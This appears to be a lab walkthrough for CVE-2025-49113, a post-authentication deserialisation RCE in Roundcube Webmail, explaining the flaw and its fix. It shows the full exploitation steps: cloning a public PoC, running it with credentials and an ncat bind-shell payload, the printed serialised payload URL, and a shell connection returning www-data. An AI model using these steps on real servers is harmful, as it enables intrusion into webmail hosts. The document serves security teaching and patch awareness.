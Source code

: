 <h1 align="center">Roundcube: CVE-2025-49113</h1>

## About RoundCube
Roudcube is a free and open-source webmail project. It is very feature-rich and available in over eighty languages. Although its built-in features are rich, they can be further expanded through the support of third-party plug-ins.

It mainly requires a web server with PHP support and an SQL server to run. Apache, Nginx, and Lighttpd, among others, can easily satisfy the web server requirements; MySQL, MariaDB, PostgreSQL, SQLite, and many others can satisfy the database requirements. This versatility makes Roundcube a very popular choice for webmail, especially among hosting providers.

Recently, a vulnerability was discovered in Roundcube Webmail; it affects all versions 1.5.x and 1.6.x before 1.5.10 and 1.6.11. This vulnerability allows remote code execution (RCE) by authenticated users; in other words, valid credentials for the webmail are enough for the attacker to execute commands on the host system. This vulnerability has a CVSS 3.x severity score of 9.9, i.e., critical. Roundcube has already released versions 1.5.10 and 1.6.11 and strongly recommends updating.

This room will cover what makes this vulnerability possible and demonstrate exploitation in a lab environment.

---

## Technical Background
> Serialisation is the process of converting an object, i.e., a class instance in PHP, Java, or Python, into a storable or transmittable format. This process is commonly used for storing objects in files or databases and for sending objects across the network, such as in APIs or cookies.

A deserialisation vulnerability is a security flaw that occurs when an application deserialises untrusted or tampered data. Deserialisation is the process of converting data from a serialised format, such as a byte stream or a string, back into a program object. If this process is done insecurely, an attacker can manipulate the serialised data to execute arbitrary code or even escalate privileges, among other malicious actions.

Kirill Firsov discovered a deserialisation vulnerability in Roundcube Webmail. They shared on their website the line of thought and research that led to discovery; it is an interesting read. The vulnerability is caused by the _from property in the upload.php not being thoroughly checked for safe values before deserialisation.

This vulnerability can be inferred in the commits for version 1.5.10 and for version 1.6.11. Even if you are not familiar with PHP, checking the commit lines and the comments will give you a good idea about how this vulnerability was fixed. In the screenshot below, you can easily infer that the additional lines now check if the URL parameter _from contains any unsafe characters.

![upload.php](https://github.com/user-attachments/assets/e45509eb-4be5-4043-93a5-8b28c2cbb225)

This vulnerability allows remote code execution via its insecure deserialisation. The attacker still needs to craft a payload so that its deserialisation leads to the desired outcome.

---

### Exploit Code
A proof of concept (PoC) exploit code is published by FearsOff on their GitHub repository. The easiest way to follow along would be to download the exploit code using git clone https://github.com/fearsoff-org/CVE-2025-49113. This is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~# git clone https://github.com/fearsoff-org/CVE-2025-49113
Cloning into 'CVE-2025-49113'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Unpacking objects: 100% (8/8), 7.31 KiB | 1.83 MiB/s, done.
root@attackbox:~# cd CVE-2025-49113/
root@attackbox:~/CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
```
Note: The CVE-2025-49113.php is the PoC exploit. If you are a free user, the AttackBox does not have Internet access, and you need to use another means to get the above file into the AttackBox. One easy way would be to copy the file from its GitHub page, create a new file on the AttackBox using your preferred text editor, and save it with the extension .php.

The CVE-2025-49113.php executes the necessary steps to get the payload of your choice executed on the target server. After retrieving a CSRF token and a session cookie, this PoC PHP script logs in using the provided username and password. The core steps of this script lie in the following:

Craft a malicious serialised PHP object
Embed the crafted object in the _from parameter
Send a POST request to the upload.php endpoint using the malicious _from parameter
The received malicious parameter will be deserialised and executed on the server side.

Executing the Exploit
To run the PoC code, the following arguments need to be used: php CVE-2025-49113.php target_url username password command.

The target_url should be replaced by Roundcube Webmail’s URL, i.e., http://MACHINE_IP/roundcube
The username and password are the valid credentials to access the webmail
The command is the “payload” that you want to be executed on the target server
Let’s use ncat -lvnp 4444 -e /bin/bash to set a bind shell; this will make it easier to demonstrate the exploit and test whether it executed successfully. An example is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://MACHINE_IP/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://MACHINE_IP/roundcube/?_from=edit-%21%C3%22%C3%3B%C3i%C3%3A%C30%C3%3B%C3O%C3%3A%C31%C36%C3%3A%C3%22%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%22%C3%3A%C31%C3%3A%C3%7B%C3S%C3%3A%C32%C36%C3%3A%C3%22%C3%5C%C30%C30%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%5C%C30%C30%C3_%C3g%C3p%C3g%C3c%C3o%C3n%C3f%C3%22%C3%3B%C3S%C3%3A%C33%C30%C3%3A%C3%22%C3n%C3c%C3a%C3t%C3+%C3-%C3l%C3v%C3n%C3p%C3+%C34%C34%C34%C34%C3+%C3-%C3e%C3+%C3%2F%C3b%C3i%C3n%C3%2F%C3b%C3a%C3s%C3h%C3%3B%C3%23%C3%22%C3%3B%C3%7D%C3i%C3%3A%C30%C3%3B%C3b%C3%3A%C30%C3%3B%C3%7D%C3%22%C3%3B%C3%7D%C3%7D%C3&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...
```
It is worth mentioning that the exploit may take a minute or two to respond and sometimes the script gives an error message despite the payload successfully executing on the target. In one attempt, we got the following error message; however, the bind shell was set up successfully, and we could connect to it from the AttackBox.

AttackBox Terminal
```
PHP Warning:  file_get_contents(http://MACHINE_IP/roundcube/): failed to open stream: HTTP request failed! in /root/CVE-2025-49113/CVE-2025-49113.php on line 240
### Error: CSRF token not found in response body
```
On the AttackBox, you must connect to the bind shell listening on port 4444.

AttackBox Terminal
```
root@attackbox:~# nc MACHINE_IP 4444
pwd
/var/www/html/roundcube
whoami
www-data
```

> This vulnerability only requires valid webmail credentials and works with default installations. The exploit can be tricky to detect, considering it can easily pass as regular traffic. Considering the severity of the exploit, users running 1.5.x and 1.6.x are recommended to update to 1.5.10 and 1.6.11, respectively. If updating is infeasible for some reason, one mitigation would be to block upload.php.







